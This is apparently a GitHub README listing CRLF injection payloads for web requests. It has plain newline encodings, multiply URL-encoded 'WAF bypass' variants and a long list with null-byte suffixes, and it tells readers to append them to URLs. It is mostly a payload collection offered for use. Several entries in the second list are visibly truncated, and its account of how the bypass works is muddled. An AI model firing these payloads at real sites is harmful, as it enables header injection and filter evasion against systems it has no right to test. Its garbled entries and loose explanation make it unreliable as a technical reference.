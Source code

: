 # CRLF-Payloads

Here are some examples of how to use CRLF injection payloads:

* **Normal payloads:**
    * %0D%0A
    * \r\n
    * \n
    * %0A
    * \r
    * %0D

These payloads can be used to inject a newline character into a web request, which can then be used to bypass certain security controls. For example, a CRLF injection payload could be used to bypass a web application firewall (WAF) that is configured to block requests that contain newline characters.

* **WAF bypass payloads:**
    * %250D%250A
    * %250A
    * %250D
    * %25250D%25250A
    * %25250A
    * %25250D

These payloads can be used to bypass WAFs that are configured to block requests that contain certain characters, such as newline characters. For example, a WAF bypass payload could be used to inject a newline character into a web request, even if the WAF is configured to block requests that contain newline characters.

To use a CRLF injection payload, you can simply add the payload to the end of a web request. For example, if you are making a request to the URL `http://example.com/index.php`, you could add the payload `%0D%0A` to the end of the URL, like this:

`http://example.com/index.php%0D%0A`

When the web server receives the request, it will interpret the payload as a newline character and process the request accordingly. This could allow you to bypass certain security controls, such as WAFs.

More Payloads:

0D%0A
r\n
n
0A
r
0D
250D%250A
250A
250D
%25250D%25250A
%25250A
%25250D
%0D%0A%00
\r\n\00
\n\00
%0A\00
\r\00
%0D\00
%250D%250A%2500
%250A%2500
%250D%2500
%25250D%25250A%252500
%25250A%252500
%25250D%252500
%0D%0A%2500
\r\n%2500
\n%2500
%0A%2500
\r%2500
%0D%2500
%250D%250A%252500
%250A%252500
%250D%252500
%25250D%25250A%25252500
%25250A%25252500
%25250D%25252500
%0D%0A%25%300
\r\n%25%300
\n%25%300
%0A%25%300
\r%25%300
%0D%25%300
%250D%250A%25%25300
%250A%25%25300
%250D%25%25300
%25250D%25250A%25%2525300
%25250A%25%2525300
%25250D%25%2525300
%0D%0A%2525300
\r\n%2525300
